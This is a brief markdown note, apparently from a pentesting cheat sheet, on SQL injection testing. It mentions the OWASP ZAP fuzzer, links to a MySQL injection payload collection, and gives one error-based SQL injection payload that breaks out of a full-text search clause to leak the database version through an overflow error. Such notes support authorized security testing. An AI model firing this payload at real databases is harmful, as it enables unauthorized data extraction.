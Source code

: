 ## Owasp ZAP
```
fuzzer
```

## Payloads
- Link of advanced sqlinjection payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL Injection/MySQL Injection

## ErrorBased SQLI

- 

' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT <span style="color:red">version()</span>)s), 8446744073709551610, 8446744073709551610)))#


